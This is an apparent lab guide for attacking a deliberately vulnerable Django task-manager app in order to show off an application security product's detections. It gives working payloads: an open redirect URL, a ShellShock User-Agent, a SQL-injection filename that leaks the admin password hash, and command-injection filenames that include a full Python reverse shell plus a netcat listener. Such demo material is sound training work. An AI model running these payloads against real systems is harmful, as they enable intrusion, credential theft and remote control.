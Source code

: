 # Instructions for exploiting vulnerabilities in the djangonv app

## Cloud One Application Security Policy

Before beginning, some adjustments need to be made to the Cloud One Application Security policy in order to allow some of the (poorly written) code to run:

In the Policies section of your application group, click the 'configure policy' icon that corresponds to 'Open Redirect'.

In the Open Redirect Policy Configuration, click the '+' and add a rule to allow redirections that occur naturally within the application.

For example, if you're running the application on http://127.0.0.1:8000, add a rule that looks like this:

http://127.0.0.1:8000/*

You can, then, enter text to preview the match with:

http://127.0.0.1:8000/taskManager/login
-or-
http://127.0.0.1:8000/taskManager/logout 

Also, for SQL Injection, click the 'configure policy' icon and enable the algorithms of interest.

## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, Cloud One Application Security's Malicious Payload algorithms will pick up on the attempts.
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without Cloud One Application Security), the browser will "sleep" for 1 minute.

For a more "interesting" demonstration, you can inject a python reverse shell.  Reverse shells are commonly used to remotely control the locally exploited application.

Also in the same location within the application, pick any file from your local computer, but for the payload use:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In the above case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```
Note:  netcat syntax may vary from system to system.

